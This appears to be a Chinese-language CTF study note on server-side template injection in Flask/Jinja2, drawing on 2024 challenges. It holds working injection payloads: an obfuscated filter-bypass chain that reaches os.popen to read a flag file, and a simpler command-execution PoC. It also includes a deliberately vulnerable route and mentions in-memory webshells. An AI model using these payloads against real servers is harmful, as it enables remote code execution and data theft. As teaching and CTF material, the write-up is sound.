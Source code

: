 ```yaml
---
title: SSTI-Python
categories:
- Network_Security
- Web
- SSTI-Python
tags:
- Network_Security
- Web
- SSTI
---
```


# Python 中的 SSTI

## 1. Jinja2

### 1.1 Flask 基础

1. 一些常见的入门网站：

    > https://read.helloflask.com/hello/

2. 常见的 Flask 项目开头代码：

    ```python
    import flask
    app = flask.Flask(__name__)
    @app.route('/')
    def hello():
        return 'Welcome to My Watchlist!'
    ```

3. app，就是：

    > 所有的 Flask 都必须创建程序实例，web 服务器使用 wsgi 协议，把客户端所有的请求都转发给这个程序实例。程序实例是 Flask 的对象，一般情况下用 `app = flask.Flask(__name__)` 实例化。
    > Flask 类只有一个必须指定的参数，即程序主模块或者包的名字，`__name__` 是系统变量，该变量指的是本 py 文件的文件名。
    
4. 然后就是具体路由，路由的方式有很多，可以详见官方文档：

    > https://flask.github.net.cn/quickstart.html#id7

### 1.2 Jinja2 的内容

1. 关键的渲染方法就是 `flask.render_template_string(str)` 和 `flask.render_template(fileName)`。

2. 目前 Jinja2 相关教程中，个人认为写的比较好的就是：

    > https://blog.csdn.net/qq_38154820/article/details/111399386

3. 着重提及一下，**常见的魔术方法要留意**，因为 SSTI 中用的比较多。

4. 大部分给的教程都是通过魔术方法从 `Object` 开始，一层一层找到**命令执行相关**的函数，然后注册函数并执行。

5. 对于某些 CTF 题，可能 Flag 是在当前系统或者环境变量里面，例如 ：
    ```python
    app = flask.Flask(__name__)
    app.config['FLAG'] = os.environ.pop('FLAG')
    ```

    这个时候，就要考虑读取系统的变量。
    常用的魔术方法就是 `__globals__` 来获取函数所在模块命名空间中的**所有变量**。Flask 中的能显示全局变量的有：`url_for()` 和 `get_flashed_messages` 等。（TODO 不懂是怎么发现的）。
    参考链接：

    > https://blog.csdn.net/qq_45290991/article/details/120117615

6. Python 中可以使用 `魔术方法名['魔术方法名']` 来代替 `魔术方法名.魔术方法名`。即可以使用：`__init__['globals']` 代替 `__init__.__globals__`。这样某些关键字可以通过字符串拼接来过滤。

### 1.3 一道过滤了很多内容的 SSTI 盲注 - \[2024源鲁杯\]\[Round 1\] Injct

1. 前期测试和 fuzz 了一下，过滤了以下东西：
    ```python
    # " 空格 set print request \u \x [] {{}} _ +
    # 以及大部分的关键字和常见的过滤器
    ```

2. 当时在做的时候，确实没啥思路，能想到的基本都过滤了，fenjing 跑了也没结果。不过当时问了群内的大佬，说是没过滤 `if`  的话其实就要考虑 `if` 的 boolean 注入了。

3. 这题的关键点有两个：

    1. 用 `~` 代替 `+`，详见 Jinja2 官方网站：

        > https://jinja.palletsprojects.com/en/stable/templates/#other-operators
        > ![image-20241029145348099](SSTI-Python/image-20241029145348099.png)

    2. 过滤器 `lipsum|string|list` 结合 `pop` 来获取 `_`，前面的过滤器会返回 `<function generate_lorem_lipsum...` 的数组，通过 `pop(18)` 来获取到 `_`。

4. 这题自己在构造的时候，也是磕磕绊绊，小问题一堆啊。接下来再补充内容：

    1. 由于都是使用的 filter，这就导致 `.方法` 不管用：
        ![image-20241029230425508](SSTI-Python/image-20241029230425508.png)
        ![image-20241029230455187](SSTI-Python/image-20241029230455187.png)
        所以盲注的话，以后不考虑用 `.` 了，可能 filter 后面不支持接 `.`。
    2. 如果获取的对象是 dict 字典，可以用 `.__getitem__(具体 key)`。如果是 list，那就在大致构造完成后，爆破下标 index 吧（因为肯定没有内容回显，所以只能爆破）。

5. 给出这题的关键 PoC：
    `{%if((''|attr((lipsum|string|list).pop(18)*2~'cl'~'ass'~(lipsum|string|list).pop(18)*2)|attr((lipsum|string|list).pop(18)*2~'ba'~'ses'~(lipsum|string|list).pop(18)*2)|attr((lipsum|string|list).pop(18)*2~'getitem'~(lipsum|string|list).pop(18)*2)(0)|attr((lipsum|string|list).pop(18)*2~'subc'~'lasses'~(lipsum|string|list).pop(18)*2)()|attr((lipsum|string|list).pop(18)*2~'geti'~'tem'~(lipsum|string|list).pop(18)*2)(101)|attr((lipsum|string|list).pop(18)*2~'ini'~'t'~(lipsum|string|list).pop(18)*2)|attr((lipsum|string|list).pop(18)*2~'glob'~'als'~(lipsum|string|list).pop(18)*2)|attr((lipsum|string|list).pop(18)*2~'get'~'item'~(lipsum|string|list).pop(18)*2)((lipsum|string|list).pop(18)*2~'buil'~'tins'~(lipsum|string|list).pop(18)*2)|attr((lipsum|string|list).pop(18)*2~'get'~'item'~(lipsum|string|list).pop(18)*2)('ev'~'al')((lipsum|string|list).pop(18)*2~'imp'~'ort'~(lipsum|string|list).pop(18)*2)('o'~'s')|attr('pop'~'en')('head$IFS$9-c$IFS$91$IFS$9/flag').('read')())=='Y')%}EndlessShw{%endif%}`
    参考以下 PoC：
    `''.__class__.__bases__[0].__subclasses__()[101].__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__')('os').popen("whoami").read()`

### 1.4 Flask 下 SSTI 的不出网回显方式

1. 对于没有过滤 `{{}}` 但是没有回显的 SSTI，就可以考虑以下两种方法：

    1. debug 模式的报错
    2. 非 debug 模式下利用内存马

2. 参考文章如下：

    > https://www.cnblogs.com/gxngxngxn/p/18181936

    文章写的很好，牛逼的。
    底层原理并不是额外的添加路由，而是去修改路由前的钩子，个人感觉有点类似打 SpringMVC 的 Interceptor 内存马，或者类似 Servlet 的 Filter。

3. 例题：[2024蜀道山]my_site，无回显的代码如下：
    ```python
    # ...
    @app.route('/rot13', methods=['GET', 'POST'])
    def rot13_route():
        if request.method == 'POST':
            action = request.form['action']
            text = request.form['text']
            
            if action == 'encrypt':
                encrypted_text = rot13(text)
                return redirect(url_for('rot13_result', result=encrypted_text, action='encrypt'))
        
            
            elif action == 'decrypt':
                text = request.form['text']
                decrypted_text = rot13(text)
                # 有 () 时进入
                if key(decrypted_text):
                    # 漏洞口
                    template = '<h1>Your decrypted text is: {{%s}}</h1>' % decrypted_text
                    try:
                        # 这里没有 return，因此没有回显
                        render_template_string(template)
                    except Exception as e:
                        abort(404)
                    # return "既然你是黑阔，那我凭什么给你回显"
                    return redirect(url_for('rot13_result', result="既然你是黑阔，那我凭什么给你回显", action='decrypt'))
    
                else:
                    return redirect(url_for('rot13_result', result=decrypted_text, action='decrypt'))
                    template = '<h1>Your decrypted text is: %s</h1>' % decrypted_text
                    return render_template_string(template)
        
        return render_template('index.html')
    
    @app.route('/rot13_result/<action>/<result>')
    def rot13_result(action, result):
        return render_template('rot13_result.html', action=action, result=result)
    # ...
    ```

    
